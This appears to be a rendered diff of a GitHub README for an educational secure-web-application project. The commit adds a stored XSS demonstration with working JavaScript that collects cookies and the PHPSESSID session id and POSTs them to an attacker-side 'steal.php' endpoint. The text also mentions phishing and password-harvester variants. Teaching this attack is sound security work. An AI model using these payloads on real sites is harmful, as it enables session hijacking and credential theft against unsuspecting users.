

Before and after one commit to cipriancyberspace/securewebapplication, a Markdown page: Secure_Login_System/README.MD, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/Secure_Login_System/README.MD
+++ b/Secure_Login_System/README.MD
@@ -104,11 +104,35 @@ $sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</c
 
 <h1 align="center">2.Secure Login System with Partial Sanitizing Code</h1>
 
+The attacker authenticates, accesses the "update profile" section, and injects the XSS payload into the "profile note" field before submitting the update. The code is stored RAW in the database without proper sanitization. Multiple payload types are available - this project demonstrates three variants: 1. Phishing payload 2. Password harvester 3. Silent credential extractor. These payloads extract sensitive data including cookies, storage objects, user information, browser details, form data, and page content based on payload configuration. A typical data collection payload example:
+
+<pre> <code><script>
+var stolenData = {
+    cookies: document.cookie,
+    sessionId: document.cookie.match(/PHPSESSID=([^;]+)/)[1],
+    url: window.location.href,
+    userAgent: navigator.userAgent,
+    timestamp: new Date().toISOString()
+};
+// Data is prepared for transmission...
+</script></code> </pre>
+
 ![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_1.png)
 
 ![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_2.png)
 
+The payload sends the data to the attacker's server:
 
+<pre> <code> fetch('./steal.php', {
+    method: 'POST',
+    headers: {'Content-Type': 'application/json'},
+    body: JSON.stringify(stolenData),
+    mode: 'no-cors'
+}).then(function() {
+    console.log('💰 Data stolen successfully!');
+}); </code> </pre>
+
+The payload transmits data to the attacker's server infrastructure. During this phase, steal.php processes the incoming JSON payload data, persists it to a .json file, and renders the collected information through dashboard.php
 
 ![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_3.png)
 
```
